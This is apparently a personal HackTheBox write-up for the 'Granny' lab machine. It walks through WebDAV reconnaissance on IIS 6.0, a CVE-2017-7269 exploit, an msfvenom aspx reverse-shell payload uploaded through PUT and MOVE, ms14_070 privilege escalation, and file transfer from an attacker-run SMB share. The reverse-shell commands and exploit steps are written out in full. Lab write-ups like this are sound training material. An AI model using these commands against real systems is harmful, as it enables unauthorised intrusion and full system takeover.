

## Reconnaissance

### nmap 

- Using nmap to scan the target 
```
nmap -sC -sV -oN granny 10.129.228.205
```

- nmap result: 
	-  Port 80: HTTP Service
		- Microsoft IIS 6.0
		- Webdav


## Gobuster 

- Gobuster directory BruteForce
```
gobuster dir -u http://10.129.228.205
```
- Find some interesting result.


### Davtest

- Using davtest to test target
- We can find some extension can be modified by PUT method, ex. 
	- perl (.pl)
	- .cfm
	- php (.php)
	- Text (.txt)
	- JSP (.jsp)
	- HTML (.html)
	- JHTML (.jhtml)

```
./davtest.pl -url http://10.129.228.205
```


- Set up the burp to redirect the request to target 


- Try Davtest on localhost to observe it in burp
```
./davtest.pl -url http://127.0.0.1
```


- Check Burp Interpreter History 


### Vulnerability

- Scan the vulnerability for webdav on IIS 6 
```
searchsploit IIS 6 | grep 'webdav'
```


- [Exploit DB result](https://www.google.com/search?q=exploitdb+webdav+iis6&rlz=1C5CHFA_enTW1055TW1055&oq=exploitdb+webdav+iis6&gs_lcrp=EgZjaHJvbWUyBggAEEUYOTIJCAEQIRgKGKAB0gEINzk4MmowajSoAgCwAgA&sourceid=chrome&ie=UTF-8)


## Exploit 

- With above davtest result, it shows that PUT method can used to create a file to web server.
- And according to vulnerability research, I also have some exploit code can use.

### Exploit by Existing exploit code 
- First, let me try to use exploit code from [here](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell)
```
git clone https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269.git
```


- Set up nc listener on port 1337 
```
nc -nlvp 1337
```

- Execute the exploit code 
```
python cve-2017-7269.py 10.129.228.205 80 10.10.17.145.1337
```


- Check Listener 


### Exploit by manually

- According to davtest result, I can create file by PUT method.
- Try to create a test file. 


- So, I create aspx reverse shell. (Don't pipe to file in this time)
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.17.145 LPORT=4444 -f aspx
```


- Change the fresh.txt to fresh.html and copy paste the reverse shell code content to body.


- But it only show the content when I try to access it by browser


- I change the file name to aspx and try to access it again.
- It will show permission error message 


- And I find the target allow a lot of HTTP method, one of the method named 'MOVE'.


- Research it, it shows that "The WebDAVMOVE Method is used to move a resource to the location specified by a request Uniform Resource Identifier (URI)."
  

  
- The Usage as follow
	- Both the `MOVE` and `COPY` request use the `Destination` header to tell the server where to copy/move to.
```
MOVE /source HTTP/1.1
Destination: /destination
```


- Here is another article also metioned that this method can use to rename file.


- So, I use move method to change the filename 


- Set up the meterpreter by multi handler


- Access the fresh.aspx on browser


- Check multi/ handler , get reverse shell 


## Post Exploitation 

- Check Current User


- Check Systeminfo


- Background the current reverse meterpreter 
```
bg 
```
- Check session
```
sessions 
```


- search suggester in metasploit and set it up
```
search suggester
use post/multi/recon/local_exploit_suggester
```
- Check suggester options 


- Execute suggester


- Enumerate LocalPrivilege Escalation possibilities, and start to test all the vulnerabilies  from 1st one which show "The target appears to be vulnerable"
	1. ms14_058
	2. ms14_070 ( work )
	3. ms15_051



### Privilege Escalation 

- Choose privilege code (ms14_070)
- Set session to 2 (since the session 1 has died, I create another session by multi/handler)
- Set Local Host address to tun0 interface


- Run exploit code and confirm get the meterpreter shell


-  Confirm  system user get

```
getuid
```


- Root Flag


### Privilege Escalation from cmd prompt

- Search exploit code for ms14-070


- Get c file and compile it by gcc-mingw-w64
- NOTE: Install gcc-mingw-w64 
```
apt install gcc-mingw-w64
```
- Compile c code 
```
i686-w64-mingw32-gc-win32 37755.c -o exploit.exe -lws2_32
```
- First time, it will failed with the error message like 
```
conflicting type for 'NTSTATUS'
```


- Modify the code 
  From 
```
typedef DWORD NTSTATUS;
```
 To
```
typedef _Return_type_success_(return >= 0) LONG NTSTATUS; 
```


- Compile it again
```
i686-w64-mingw32-gcc-win32 37755.c -o exploit.exe -lws2_32
```

##### Transfer file by Impacket SMB Server 

- Run smbserver.py in impacket 
```
python /path/to/imacket/examples/smbserver.py evilshare . 
```


- On victim shell, execute net view to check the directory in smb
```
net view \\<attacker ip address>
```


- Check directory content 
```
dir \\<attacker ip address>\<dir name>
```


- Copy file to local 
```
copy \\<attacker ip address\<dir name>\<target file>
```


- If the copy file result show 'Access Denied', then change dir to %TEMP%, this directory has full permission to write file.


- Execute the exploit file, **but it always will stuck like the following image show**


## Reference 
### Writeup

- [(Video)ippsec - Granny & Grandpa](https://www.youtube.com/watch?v=ZfPVGJGkORQ)

### CVE-2017-7269

- [(GITHUB)CVE-2017-7269_exploit](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell)
- [(ExploitDB)MS IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow](https://www.exploit-db.com/exploits/41738)
### davtest

- [(GITHUB)davtest](https://github.com/cldrn/davtest)

### HTTP Method Move
- [HTTP Method - MOVE](https://learn.microsoft.com/en-us/previous-versions/office/developer/exchange-server-2003/aa142926(v=exchg.65))
- [HTTP Method - MOVE usage](https://yandex.com/dev/disk/doc/dg/reference/move.html)
- [HTTP Method -MVE usage 2](https://evertpot.com/webdav-features-for-http/)

### msfvenom 

- [Metasploit渗透——msfvenom生成shell速查](https://blog.csdn.net/negnegil/article/details/120306968)

### ms14_070

- [ms14_070_exploit walkthrough](https://vk9-sec.com/microsoft-windows-server-2003-sp2-tcp-ip-ioctl-privilege-escalation-ms14-070-cve-2014-4076/)
- [(EXPLOIT DB)# Microsoft Windows Server 2003 SP2 - TCP/IP IOCTL Privilege Escalation (MS14-070) ](https://www.exploit-db.com/exploits/37755)
- [python no module 'symbol'](https://stackoverflow.com/questions/70836444/no-module-named-symbol)
	- Run python smbserver, sometimes it will response error like "No moduled Named 'symbol'"
	
		
	- Solution: 
	```
	pip install --upgrade pip setuptools
	```
	


###### tags: `HackTheBox`, `Windows`, `File Transfer - smbserver` `ms14_070` `CVE-2017-7269`,  `metasploit`,  `meterpreter` `WebDav` `IIS6`